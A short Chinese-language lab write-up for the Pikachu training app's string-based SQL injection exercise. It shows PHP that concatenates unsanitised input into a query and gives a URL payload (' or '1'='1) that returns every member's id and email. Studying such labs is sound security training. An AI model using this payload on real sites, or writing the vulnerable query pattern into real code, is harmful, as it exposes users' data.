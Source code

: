 **服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

构造 payload

`http://<IP address!!!>/pikachu/vul/sqli/sqli_str.php?name=1' or '1' ='1&submit=%E6%9F%A5%E8%AF%A2`

![](../../../../assets/img/安全/实验/Misc/pikachu/28.png)
